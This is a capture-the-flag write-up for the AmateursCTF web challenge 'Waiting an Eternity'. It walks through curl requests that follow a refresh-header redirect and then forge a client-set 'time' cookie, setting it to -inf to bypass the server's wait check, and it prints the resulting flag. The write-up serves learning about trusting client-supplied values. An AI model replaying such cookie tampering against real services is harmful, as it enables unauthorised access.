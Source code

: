 ```yaml
---
title: "Waiting an Eternity"
tags:
- AmateursCTF
- CTF
- Cookies
- Web
date: 2023-07-19T07:53:17+05:30
draft: false
---
```


This was a fairly straightforward and fun challenge that required a bit of common sense to solve.
We are given the URL https://waiting-an-eternity.amt.rs to begin with.

Let's use `curl` with its verbose flag to fetch this URL.

```sh
curl -v "https://waiting-an-eternity.amt.rs"
```

We get a response that tells us to wait an enternity.

```
> GET / HTTP/2
> Host: waiting-an-eternity.amt.rs
> User-Agent: curl/8.1.1
> Accept: */*
> 
< HTTP/2 200 
< content-type: text/html; charset=utf-8
< date: Tue, 18 Jul 2023 04:28:52 GMT
< refresh: 1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000; url=/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a
< server: gunicorn
< content-length: 21
< 
* Connection #0 to host waiting-an-eternity.amt.rs left intact
just wait an eternity
```

On closer inspection, the refresh header with the gigantic number sticks out like a sore thumb.

```
refresh: 1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000; url=/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a
```

The refresh header is a non-standard but widely supported HTTP header that redirects to the URL present in the `url` field
after the specified timout in seconds.

In our case, this means that after one octovigintillion seconds, we would finally get redirected to `/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a`.

Since I'm rather impatient, I'll proceed to visiting the redirect location. We will use the same technique as earlier, fetch the URL
using `curl` in its verbose settings.

```sh
curl -v "https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a"
```

This results in another slightly different response that tells us to wait another eternity.

```
> GET /secretsite?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a HTTP/2
> Host: waiting-an-eternity.amt.rs
> User-Agent: curl/8.1.1
> Accept: */*
> 
< HTTP/2 200 
< content-type: text/html; charset=utf-8
< date: Tue, 18 Jul 2023 04:44:02 GMT
< server: gunicorn
< set-cookie: time=1689655442.2456439; Path=/
< content-length: 38
< 
* Connection #0 to host waiting-an-eternity.amt.rs left intact
welcome. please wait another eternity.
```

There is another difference in the headers of the response. This time, instead of the `refresh` header, we can notice a `set-cookie` header
with the `time` cookie set to a floating point number.

```
set-cookie: time=1689655442.2456439; path=/
```

Let's try setting this `time` cookie to 0 using the `-b` flag with `curl`.

```sh
curl "https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a" \
-b "time=0"
```

The response tells us that we haven't waited enough.

```
you have not waited an eternity. you have only waited 1689655538.27981 seconds
```

This is better than the previous message as the server thinks we have at least waited some time. Since 0 is less than the default value
1689655442.2456439 we encountered before, let's try supplying an even smaller number like -1000.

```sh
curl "https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a" \
-b "time=-1000"
```

The response says:

```
you have not waited an eternity. you have only waited 1689657530.625615 seconds
```

Notice how 1689657530.625615 in the second response is greater than 1689655538.27981 from the first response.
This implies, for smaller values supplied to the `time` cookie, the time we have waited increases.

The last piece to the puzzle is that the `time` cookie is a floating point number. According to the IEE 754 floating
point specifications, these numbers must also be able to represent signed zeros, things that are not a number (NaN) and
*signed infinities*. To wait an eternity, we can supply the most negative value possible, `-inf`.

```sh
curl "https://waiting-an-eternity.amt.rs/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a" \
-b "time=-inf"
```

This finally gives us our flag.

```
amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}
```